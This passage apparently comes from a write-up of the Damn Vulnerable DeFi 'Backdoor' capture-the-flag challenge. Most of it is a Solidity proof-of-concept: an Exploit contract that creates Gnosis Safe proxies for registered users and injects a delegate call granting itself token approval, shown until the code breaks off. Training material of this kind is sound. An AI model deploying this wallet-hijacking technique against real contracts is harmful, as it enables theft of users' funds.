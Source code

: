 ```
        address to, //   Contract address for optional delegate call.
        bytes calldata data, //Data payload for optional delegate call.
        address fallbackHandler
    ) 
```

[POC](./damn-vulnerable-defi/test/backdoor/Backdoor.t.sol) :
```
    function test_backdoor() public checkSolvedByPlayer {
             Exploit exploit = new Exploit(address(singletonCopy),address(walletFactory),address(walletRegistry),address(token),recovery);
             exploit.attack(users);
    }
contract Exploit {
    address private immutable singletonCopy;
    address private immutable walletFactory;
    address private immutable walletRegistry;
    DamnValuableToken private immutable dvt;
    address recovery;

    constructor(
        address _masterCopy,
        address _walletFactory,
        address _registry,
        address _token,
        address _recovery
    ) {
        singletonCopy = _masterCopy;
        walletFactory = _walletFactory;
        walletRegistry = _registry;
        dvt = DamnValuableToken(_token);
        recovery = _recovery;
    }

    function delegateApprove(address _spender) external {
        dvt.approve(_spender, 10 ether);
    }

    function attack(address[] memory _beneficiaries) external {
        // For every registered user we'll create a wallet
        for (uint256 i = 0; i < 4; i++) {
            address[] memory beneficiary = new address[](1);
            beneficiary[0] = _beneficiaries[i];

            // Create the data that will be passed to the proxyCreated function on WalletRegistry
            // The parameters correspond to the GnosisSafe::setup() contract
            bytes memory _initializer = abi.encodeWithSelector(
                Safe.setup.selector, // Selector for the setup() function call
                beneficiary, // _owners =>  List of Safe owners.
                1, // _threshold =>  Number of required confirmations for a Safe transaction.
                address(this), //  to => Contract address for optional delegate call.
                abi.encodeWithSignature("delegateApprove(address)", address(this)), // data =>  Data payload for optional delegate call.
                address(0), //  fallbackHandler =>  Handler for fallback calls to this contract
                0, //  paymentToken =>  Token that should be used for the payment (0 is ETH)
                0, // payment => Value that should be paid
                0 //  paymentReceiver => Adddress that should receive the payment (or 0 if tx.origin)
            );

            // Create new proxies on behalf of other users
        SafeProxy _newProxy = SafeProxyFactory(walletFactory).createProxyWithCallback(
         singletonCopy,  // _singleton => Address of singleton contract.
         _initializer,   // initializer => Payload for message call sent to new proxy contract.
```